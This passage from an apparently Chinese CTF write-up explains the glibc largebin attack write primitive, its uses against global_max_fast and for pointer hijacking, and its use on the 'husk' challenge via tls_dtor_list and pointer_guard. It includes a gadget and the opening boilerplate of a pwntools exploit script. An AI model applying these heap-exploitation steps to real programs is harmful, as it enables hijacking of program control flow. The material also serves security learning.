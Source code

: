 根据我们分析到的实际问题进行实体性简化：

```c
p2->fd_nextsize = &p1
p2->bk_nextsize = p1->bk_nextsize
p1->bk_nextsize = bk_nextsize->fd_nextsize = victim
```

然后我们是将p1的bk\_nextsize改为了target-0x20，所以就可以得到这样的表识：

```c
p2->fd_nextsize = &p1
p2->bk_nextsize = p1->bk_nextsize
p1->bk_nextsize = (target-0x20)->fd_nextsize = victim
```

其实，这三行置零最重要的是最后一行的`(target-0x20)->fd_nextsize = victim`这就相当于在(target-0x20)+0x20也就是target的地方写下victim也就是p2的地址。

0x04 常见利用方式
===========

这种写大数的行为，我们可以用来修改global\_max\_fast,来使程序中分配的堆块都被识别成fastbin，这样来进行一些可以实现的fastbin attack。再恶劣一点的环境来说，我们可以利用其来进行指针的劫持，劫持为我们可控的地方，在可控的地方为造出原本应有的结构体产生劫持程序流的效果（iofile\_attack:你直接说我名字得了）。

0x05 题目实例
=========

2021湖湘杯2.34的pwn——husk，chunk申请范围是0x40f到0x500，漏洞是uaf

我们利用这个方式就是：通过两次`largebin attack`将已知地址写入结构体指针`tls_dtor_list`和`fs:0x30（tcbhead_t->pointer_guard）`里，然后风水布置堆块，伪造`dtor_list`结构体，接下来就是利用`__call_tls_dtors`函数来调用我们的指针。

一点回顾
----

在系列文章第一篇最后写到了比较方便的gadget去间接控制rdx寄存器就是这里用到了

```c
mov     rdx, [rdi+8]
mov     [rsp+0C8h+var_C8], rax
call    qword ptr [rdx+20h]
```

可以通过这个gadget通过rdi来控制rdx寄存器。

exp：
----

附上网传exp：

```c
#!/usr/bin/env python3
#coding=utf-8
from pwn import*
import os
context.log_level = 'debug'
context.arch='amd64'
binary = './pwn' 
main_arena = 2198624
s = lambda buf: io.send(buf)
sl = lambda buf: io.sendline(buf)
sa = lambda delim, buf: io.sendafter(delim, buf)
sal = lambda delim, buf: io.sendlineafter(delim, buf)
shell = lambda: io.interactive()
r = lambda n=None: io.recv(n)
ra = lambda t=tube.forever:io.recvall(t)
ru = lambda delim: io.recvuntil(delim)
rl = lambda: io.recvline()
rls = lambda n=2**20: io.recvlines(n)
su = lambda buf,addr:io.success(buf+"==>"+hex(addr))
#context.terminal = ['tilix', '-x', 'sh', '-c']
```